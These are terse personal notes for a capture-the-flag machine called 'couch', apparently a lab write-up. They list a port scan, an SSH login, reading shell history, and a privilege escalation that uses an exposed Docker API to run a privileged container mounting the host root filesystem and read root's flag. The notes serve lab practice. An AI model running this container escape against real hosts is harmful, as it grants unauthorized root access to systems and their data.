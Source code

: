 ```yaml
---
date: 2024-06-19
author: mrashco
title: couch
tags: 
categories: 
series:
---
```

`rustscan`

Research [^](https://guide.couchdb.org/draft/tour.html)

`ssh user:password`

- `cat .bash_history`
- `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine`
- `cat /mnt/root/root.txt`